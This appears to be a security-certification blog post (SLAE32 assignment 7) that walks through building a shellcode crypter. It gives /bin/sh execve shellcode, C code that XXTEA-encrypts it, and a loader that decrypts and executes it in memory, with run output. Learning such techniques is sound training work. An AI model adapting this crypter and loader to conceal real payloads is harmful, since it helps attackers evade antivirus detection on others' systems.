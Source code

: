 ```yaml
---
title: "SLAE32: Creating custom crypter shellcode"
author: Travis Mathison
date: 2018-01-22 12:00:00 +0800
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #7

---

## Description
* Create a custom crypter like the one shown in the “crypters” video
* Free to use any existing encryption schema
* Can use any programming language

## Choosing a symmetric encryption algorithm
For the encryption and decryption of the shellcode I have chosen to use the Corrected Block TEA (XXTEA) block cipher.  Further reading on this implementation can be found here => [XXTEA](https://en.wikipedia.org/wiki/XXTEA).

<img src="{{ site.url }}/images/slae32/07-01.png"/><br/>
One round of XXTEA [(Source)](https://en.wikipedia.org/wiki/XXTEA)<br/>

As to not reimplement XXTEA itself I discovered a C implementation of the cipher on github at [XXTEA encryption arithmetic library](https://github.com/xxtea/xxtea-c). This implementation will allow me to encrypt the shellcode and emmit it in shellcode form.

## Shellcode to encrypt
I will be using some shellcode from earlier to spawn a simple /bin/sh.  The assembly to spawn this shell is:
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes)
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```

The generated shellcode from objdump that we will encrypt is:
```
[sengen@manjaro-x86 assignment7]$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Encrypting shellcode
For the encryption we will take the shellcode we generated above and hardcode it into our encrypt.c source code.  Utilizing the XXTEA algorithm we'll encrypt each byte and output it in shellcode format.

#### encrypt.c
```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./encrypt <key>");
        exit(1);
    }

    unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    size_t shellcode_len = strlen((const char *) shellcode);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before encryption:");
    for (int counter = 0; counter < shellcode_len; ++counter) {
        printf("\\x%02x", shellcode[counter]);
    }

    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);

    printf("\n\nEncrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(encrypt_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)encrypt_data[counter], (int)encrypt_data[counter+1]);
    }

    printf("\n");

    return 0;
}
```
#### Compiling and running the encrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall encrypt.c xxtea.c xxtea.h -o encrypt
[sengen@manjaro-x86 assignment7]$ ./encrypt slae32-assembly-expert
Shellcode before encryption:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Encrypted shellcode:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e
```

### Decrypting shellcode
Now we have an encrypted version of the shellcode.  We'll copy this out and place it into our decrypt.c program.  This does the opposite and performs the decryptions of each byte and again we'll print it to the screen.  Additionally, we'll now execute the shellcode which will spawn our /bin/sh.

```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./decrypt <key>");
        exit(1);
    }

    unsigned char encrypted_data[] = "\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e";
    size_t encrypted_data_len = strlen((const char *) encrypted_data);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before decryption:");
    for (int counter = 0; counter < encrypted_data_len; ++counter) {
        printf("\\x%02x", encrypted_data[counter]);
    }

    size_t len;
    unsigned char *decrypted_data = xxtea_decrypt(encrypted_data, encrypted_data_len, key, &len);

    printf("\n\nDecrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(decrypted_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)decrypted_data[counter], (int)decrypted_data[counter+1]);
    }

    printf("\n\nExecuting shellcode.");

    int (*ret)() = (int(*)())decrypted_data;
    ret();

    return 0;
}
```

#### Compiling and running the decrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall decrypt.c xxtea.c xxtea.h -o decrypt
[sengen@manjaro-x86 assignment7]$ ./decrypt slae32-assembly-expert
Shellcode before decryption:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e

Decrypted shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00

sh-4.4$
```

### Source code
All source code for this assignment can be found at<br/>
 [https://github.com/tdmathison/SLAE32/tree/master/assignment7](https://github.com/tdmathison/SLAE32/tree/master/assignment7).
